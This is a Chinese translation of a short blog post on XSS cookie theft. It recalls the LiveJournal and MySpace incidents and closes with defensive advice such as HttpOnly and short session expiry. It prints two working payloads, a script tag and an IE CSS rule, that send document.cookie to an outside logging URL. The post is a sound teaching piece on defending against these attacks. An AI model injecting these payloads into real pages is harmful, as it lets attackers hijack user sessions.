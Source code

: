 ```yaml
---
title: XSS攻击之窃取Cookie

date: 2017-08-15 10:00:00

tags: [JavaScript, 翻译]

---
```


**译者按:** 10年前的博客似乎有点老了，但是**XSS攻击**的威胁依然还在，我们不得不防。

<!-- more -->

原文: [XSS - Stealing Cookies 101](http://jehiah.cz/a/xss-stealing-cookies-101)

译者: [Fundebug](https://fundebug.com/)

**为了保证可读性，本文采用意译而非直译。另外，本文版权归原作者所有，翻译仅用于学习。**

窃取**Cookie**是非常简单的，因此不要轻易相信客户端所声明的身份。即便这个**Cookie**是在数秒之前验证过，那也未必是真的，尤其当你仅使用**Cookie**验证客户端的时候。

2006年1月，[**LiveJournal**遭到了**XSS**攻击](http://voices.washingtonpost.com/securityfix/2006/01/account_hijackings_force_livej.html)，这个事件足以警示我们。还有，2006年10月，[**MySapce**也遭到了**XSS**攻击](https://zh.wikipedia.org/wiki/%E8%90%A8%E7%B1%B3_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E8%A0%95%E8%99%AB))，这告诉我们必须非常谨慎地过滤用户发布的文本，因为黑客可以在文本中掺杂一些JavaScript代码，以此窃取登陆用户的**Cookie**。

正如黑客攻击**LiveJournal**那样，你不需要在登陆用户的浏览器进行任何操作，而可以在第三方进行所有操作。更糟糕的是，窃取**Cookie**事实上**操作起来非常简单**，但是**防范起来却非常困难**。

下面的的JavaScript代码就可以窃取**Cookie**，是不是很简单？

```html
<script>
new Image().src="http://jehiah.com/_sandbox/log.cgi?c="+encodeURI(document.cookie);
</script>
```

如果我可以将这段代码插入到某个登陆用户的页面，则**Cookie**就会通过HTTP请求发送给我，然后我就可以伪造那个可怜的登陆用户了！

在IE浏览器上，可以通过在CSS代码中执行JavaScript来窃取**Cookie**，也很简单。

```css
<style>
.getcookies{
    background-image:url('javascript:new Image().src="http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);');
}
</style>
<p class="getcookies"></p>
```

如果你对用户发布的文本内容不进行严格的过滤的话，黑客就可以很方便地窃取**Cookie**。是不是很可怕？**如果你是一个负责任的开发者的话，你就应该保持警惕！**因此，你必须假设所有用户的**Cookie**都被窃取了。注意，是**所有用户**，对于这一点，我不想含糊其辞。

为了保证安全：请不停地重设**session**的重设；将过期时间设置短一些；监控**referrer**与**userAgent**的值；使用[HttpOnly](http://www.owasp.org/index.php/HttpOnly)禁止脚本读取**Cookie**。这些措施并非万无一失，但是增加了黑客的难度，因此也是有效的。

如果你对[**MySapce**遭到的**XSS**攻击](https://zh.wikipedia.org/wiki/%E8%90%A8%E7%B1%B3_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E8%A0%95%E8%99%AB))不了解，可以查看黑客本人公开的[技术细节](http://samy.pl/popular/tech.html)，很有趣，不过切勿模仿，因为他为自己的行为此付出了不小的代价：**三年内被禁止使用电脑！**。

### 参考链接

- [9.3 避免XSS攻击](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md)
- [萨米 (计算机蠕虫)](https://zh.wikipedia.org/wiki/%E8%90%A8%E7%B1%B3_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E8%A0%95%E8%99%AB))
- [Technical explanation of The MySpace Worm](http://samy.pl/popular/tech.html)
- [Account Hijackings Force LiveJournal Changes](http://voices.washingtonpost.com/securityfix/2006/01/account_hijackings_force_livej.html)


<div style="text-align: center;">
<img style="width:30%;" src="https://blog.fundebug.com/images/qq_bug.JPG" />
</div>